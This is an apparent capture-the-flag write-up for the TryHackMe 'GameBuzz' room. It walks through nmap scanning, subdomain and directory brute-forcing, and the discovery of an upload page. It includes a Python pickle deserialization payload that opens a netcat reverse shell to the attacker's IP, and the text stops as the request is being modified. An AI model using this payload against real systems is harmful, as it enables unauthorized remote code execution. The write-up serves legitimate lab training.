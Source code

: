 # <div align='center'>[GameBuzz](https://tryhackme.com/room/gamebuzz)</div>
<div align='center'>Part of Incognito CTF</div>
<div align='center'>
  <img alt="gamebuzz" src="https://github.com/user-attachments/assets/b82d2e36-8800-4cd3-98a7-388c3ff47c7b" height='200'></img>
</div>

St1p 1: Recconance

Let scan the Network:
```bash
~$ nmap 10.10.205.198 -sV -sC -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-08 11:55 IST
Nmap scan report for 10.10.205.198
Host is up (0.17s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Incognito
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

As the only Port 80 is running let take a look

![image](https://github.com/user-attachments/assets/8abe2a1f-be10-4b00-8cf9-06ae27178ffb)

The website seems Static and nothing usefull but at bottom i saw this

![image](https://github.com/user-attachments/assets/3ea0814f-49ef-4e52-8d83-771dcddfeaa5)

When we click on `game rating` button

![image](https://github.com/user-attachments/assets/d7d44968-12a7-42a6-aa07-9b2e1cd1a5d0)

and select any game 

![image](https://github.com/user-attachments/assets/1b31f475-afc9-4d26-a106-3abcccd2cd1d)

it loads a file with a `.pkl` extension.
 ![image](https://github.com/user-attachments/assets/138eb46d-1938-449d-958e-d5ee8b23166e)

we find a domain name a the bottom of the main page:`admin@incognito.com` There might be subdomain 

Doing a subdomain brute force we find a new domain.

Let’s add it to the hosts file.
```bash
echo "10.10.205.198 incognito.com" | sudo tee -a /etc/hosts 
```
```
 ~$ ffuf -u http://incognito.com/ -H "Host: FUZZ.incognito.com" -w wordlists/seclists/current/Discovery/DNS/subdomains-top1million-5000.txt -fw 8853

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://incognito.com/
 :: Wordlist         : FUZZ: /home/death/wordlists/seclists/current/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.incognito.com
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 8853
________________________________________________

dev                     [Status: 200, Size: 57, Words: 5, Lines: 2, Duration: 183ms]
:: Progress: [4989/4989] :: Job [1/1] :: 170 req/sec :: Duration: [0:00:30] :: Errors: 0 ::
```

we found `dev.incognito.com` let add this to host file
```
echo "10.10.205.198 dev.incognito.com" | sudo tee -a /etc/hosts 
```

![image](https://github.com/user-attachments/assets/efaac4ca-4150-4a71-b4a4-b556786f63f8)

Let go more deep
```
~$ dirsearch -u http://dev.incognito.com

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/death/reports/http_dev.incognito.com/_25-06-08_13-28-55.txt

Target: http://dev.incognito.com/

[13:28:55] Starting: 
[13:29:03] 403 -  282B  - /.ht_wsr.txt
[13:29:03] 403 -  282B  - /.htaccess.orig
[13:29:03] 403 -  282B  - /.htaccess.save
[13:29:03] 403 -  282B  - /.htaccess.bak1
[13:29:03] 403 -  282B  - /.htaccess.sample
[13:29:03] 403 -  282B  - /.htaccessOLD
[13:29:03] 403 -  282B  - /.htaccessBAK
[13:29:03] 403 -  282B  - /.htaccess_sc
[13:29:03] 403 -  282B  - /.htaccess_extra
[13:29:03] 403 -  282B  - /.htaccessOLD2
[13:29:03] 403 -  282B  - /.htaccess_orig
[13:29:03] 403 -  282B  - /.htm
[13:29:04] 403 -  282B  - /.html
[13:29:04] 403 -  282B  - /.httr-oauth
[13:29:04] 403 -  282B  - /.htpasswd_test
[13:29:04] 403 -  282B  - /.htpasswds
[13:29:06] 403 -  282B  - /.php
[13:29:37] 404 -   16B  - /composer.phar
[13:29:52] 404 -   16B  - /index.php/login/
[13:30:06] 404 -   16B  - /php-cs-fixer.phar
[13:30:07] 403 -  282B  - /php5.fcgi
[13:30:09] 404 -   16B  - /phpunit.phar
[13:30:14] 200 -   32B  - /robots.txt
[13:30:15] 301 -  323B  - /secret  ->  http://dev.incognito.com/secret/
[13:30:15] 403 -  282B  - /secret/
[13:30:15] 403 -  282B  - /server-status/
[13:30:15] 403 -  282B  - /server-status

Task Completed
```
We found a `Secret` let go more deeper
```
death@esther:~$ dirsearch -u http://dev.incognito.com/secret

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/death/reports/http_dev.incognito.com/_secret_25-06-08_13-30-28.txt

Target: http://dev.incognito.com/

[13:30:28] Starting: secret/
[13:31:10] 404 -   16B  - /secret/composer.phar
[13:31:24] 404 -   16B  - /secret/index.php/login/
[13:31:38] 404 -   16B  - /secret/php-cs-fixer.phar
[13:31:40] 404 -   16B  - /secret/phpunit.phar
[13:31:56] 301 -  330B  - /secret/upload  ->  http://dev.incognito.com/secret/upload/
[13:31:56] 200 -  236B  - /secret/upload/

Task Completed
```
So we found an upload page `http://dev.incognito.com/secret/upload/`

![image](https://github.com/user-attachments/assets/24f76ccf-fb0d-46cc-921f-2fa45f63dc0f)

Ah ha! There’s an upload feature. Let’s start testing which types of files we can upload.

fire up burpsuite
As it we saw the game rating button carry a `.pkl` file, after search on web i got this revrse shell: Change the ip before use
```
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 10.17.14.127 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Open netcat listner in new terminal
![image](https://github.com/user-attachments/assets/161c73b3-2eca-4f5f-9fe5-5d4a7cb1c392)

Upload the shell
![image](https://github.com/user-attachments/assets/d91a451c-c65f-414f-96b5-6048a3bfb896)

![image](https://github.com/user-attachments/assets/871a1900-11b2-4c2c-9448-f4e349f085f2)

Our shell uploded successfully
![image](https://github.com/user-attachments/assets/67a37349-d2bf-4b32-942d-715b902233dd)

![image](https://github.com/user-attachments/assets/62ea43d1-cfff-40ef-85d5-518d165b7a0a)

Let Execute the shell for doing this back to main website `incognito.com`
![image](https://github.com/user-attachments/assets/e5a68e02-4fc7-4e3c-b817-8d2a17fa877c)

Let capture the request:

![image](https://github.com/user-attachments/assets/eb37078c-6361-4c2e-9a84-551a524bee5c)

Mod the request
